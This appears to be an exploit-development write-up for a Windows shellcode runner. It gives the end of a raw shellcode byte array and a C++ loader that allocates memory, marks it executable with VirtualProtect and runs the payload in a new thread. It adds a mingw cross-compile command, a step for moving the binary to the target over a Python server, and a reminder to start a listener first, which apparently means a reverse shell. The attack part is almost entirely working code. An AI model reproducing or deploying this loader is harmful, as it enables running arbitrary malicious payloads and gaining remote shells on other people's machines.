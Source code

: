 ```cpp
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
	void * my_payload_mem; // memory buffer
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	// Allocating memory buffer for payload..
	my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// copy buffer to payload
	RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

	// make new buffer as executable...
	rv = VirtualProtect(my_payload_mem, my_payload_len,PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
		//run it.....
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
		WaitForSingleObject(th, -1);
	}
	return 0;
}
```
---

## Cross compilation

```bash
kant@APPLEs-MacBook-Pro ~/exp-dev> x86_64-w64-mingw32-g++ shellcode.cpp -o executor -I/usr/share/mingw-w64/include -L/usr/lib -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -Wnarrowing -fexceptions
kant@APPLEs-MacBook-Pro ~/exp-dev> ls
executor.exe*  shellcode.cpp 

```
---

## Transfer the binary using python server.

<img width="1149" height="119" alt="Screenshot 2025-09-15 at 11 22 25 PM" src="https://github.com/user-attachments/assets/0ddf3db3-32e5-4885-9fc2-53398b7a2ed4" />


## Execute the binary..
### before execution make sure to start the listener.

---